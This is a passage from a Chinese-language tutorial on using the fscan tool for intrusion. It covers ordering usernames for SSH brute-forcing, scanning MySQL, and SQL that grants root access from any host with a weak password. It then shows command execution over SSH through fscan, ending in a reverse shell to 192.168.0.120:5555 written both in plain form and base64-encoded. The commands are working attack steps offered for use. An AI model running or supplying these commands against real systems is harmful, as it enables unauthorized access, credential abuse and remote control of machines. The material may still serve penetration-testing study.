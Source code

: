 注：在进行爆破的时候是按文件里面的顺序进行爆破的，这时ssh包含多个用户，只能爆破出来第一个，要把root类的管理权限高的用户名放在文本得最上面。

附加一个扫mysql服务的：

```
 .\fscan64.exe -h IP -m mysql -np -nopoc
```

使用navicat连接

连接的前提：你目标机要开启远程连接，

mysql开启远程连接：

```
grant all privileges on *.* to 'root'@'%' identified by '123456' with grant option;		#开启一个远程连接用户为root任意IP可以连接，密码时123456
flush privileges;	#刷新用户权限
select user,host from user;		#查看用户检查是否已经更改
```

### 跳过一些扫描进行爆破

```
-nobr 		#跳过sql、ftp、ssh等爆破
-nopoc 		#跳过web poc扫描
-np 		#跳过存活检测
```

## 漏洞利用功能

### 使用ssh命令执行

```
.\fscan64.exe -h [目标IP] -c [执行的命令]
```

例如：

查看用户：

```
 .\fscan64.exe -h IP -c whoami
```

### ssh命令执行上线Necat

例如：

执行的命令：

```
bash -i >& /dev/tcp/192.168.0.120/5555 0>&1
```

编码后执行的命令（因为在powershell中执行的命令不能包含&&和&）：

```
.\fscan64.exe -h 192.168.88.130  -c "bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTIwLzU1NTUgMD4mMQo=}|{base64,-d}|{bash,-i}'"
```
